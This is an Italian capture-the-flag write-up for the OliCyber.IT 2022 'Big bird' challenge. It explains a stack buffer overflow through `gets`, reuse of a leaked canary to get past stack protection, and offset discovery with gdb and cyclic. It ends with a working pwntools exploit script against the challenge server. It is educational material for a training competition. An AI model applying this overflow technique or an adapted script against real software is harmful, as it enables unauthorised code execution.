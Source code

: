 # OliCyber.IT 2022 - Competizione territoriale

## [binary-3] Big bird (11 risoluzioni)

La challenge è un binario molto semplice, che stampa delle informazioni, chiede dell'input all'utente e ritorna subito. C'è una evidente funzione `win` nel binario che stampa la flag.

### Soluzione

Guardando il binario si vede molto in fretta che per prendere l'input dall'utente, il binario usa la funzione `gets`, che è una funzione non usabile in modo sicuro praticamente in nessun modo, perché non fa alcun tipo di bounds check. È molto facile quindi sovrascrivere l'indirizzo di ritorno dalla funzione main. L'unico problema è che il binario è compilato con il canary abilitato, per cui sfondando il buffer dove possiamo scrivere, andremo a sovrascrivere proprio il canary, cosa che causerà un abort del programma, impedendoci di chiamare la funzione win.

Ci viene in aiuto proprio quello che ha stampato il programma, che è esattamente il canary. Possiamo accorgercene in più modi:

- guardando il binario, si vede che la cosa che viene stampata è esattamente a `[rbp - 0x8]`, che è dove si trova il canary
- con un po' di guessing visto che il canary è un intero completamente casuale tranne per il byte meno significativo che è settato a 0. Dato che ci viene stampato, è abbastanza facile vedere che la cosa che viene stampata ha proprio queste caratteristiche.
- guessing dal nome della challenge

Dobbiamo a questo punto scoprire l'indirizzo della funzione `win`. Avendo il binario l'ASLR disabilitato, questo è un compito semplice, in quanto l'indirizzo è noto a tempo di compilazione. Possiamo usare vari tool per leggerlo, usando pwntools come sotto oppure `nm`:

```bash
nm bigbird | grep win
0000000000401715 T win
```

L'unica cosa che ci manca è l'offset a cui andare a scrivere il canary e l'indirizzo di ritorno della funzione. Questo può tranquillamente essere calcolato staticamente guardando il binario, ma lo faremo con `gdb` per mostrare un metodo più comodo. Mettiamo un breakpoint subito dopo aver ricevuto il nostro input, cioè `break *main + 79`. Eseguiamo il binario con `run`, inseriamo molto input, per esempio usando `cyclic` di `pwntools` e vediamo il risultato sullo stack:

```
0x007fffffffdda0│+0x0000: "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"	 ← $rax, $rsp
0x007fffffffdda8│+0x0008: "caaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoa[...]"
0x007fffffffddb0│+0x0010: "eaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqa[...]"
0x007fffffffddb8│+0x0018: "gaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasa[...]"
0x007fffffffddc0│+0x0020: "iaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaaua[...]"
0x007fffffffddc8│+0x0028: "kaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawa[...]"
0x007fffffffddd0│+0x0030: "maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaaya[...]"	 ← $rbp
0x007fffffffddd8│+0x0038: "oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabba[...]"
```

Dobbiamo sovrascrivere la linea esattamente sopra `rbp` con il canary, quella subito sotto con l'indirizzo di ritorno. Possiamo ricavare l'offset leggendo dagli indirizzi, visto che il buffer è allineato alla cima dello stack, oppure usando pwntools:

```
cyclic -l kaaa
# risultato: 0x28
cyclic -l oaaa
# risultato: 0x38
```

Ricordiamo per chiarezza che lo stack frame di una funzione è fatto nel seguente modo:

```
dati             <- rsp
dati
dati
dati
canary
old_rbp          <- rbp
return_address
dati
dati
dati
```

### Exploit

```python
#!/usr/bin/env python
from pwn import ELF, context, process, args, flat, log

exe = context.binary = ELF("bigbird")
remotehost = ("bigbird.challs.olicyber.it", 12006)

if __name__ == "__main__":
    io = remote(*remotehost) if args.REMOTE else process([exe.path])
    io.recvuntil(b"BIG BIRD: ")
    canary = int(io.recvline(False), 16)
    io.sendlineafter(b"good music", flat({0x28: canary, 0x38: exe.sym['win']}))
    io.recvlines(2)
    flag = io.recvline().decode()
    log.success(flag)
    io.close()
```
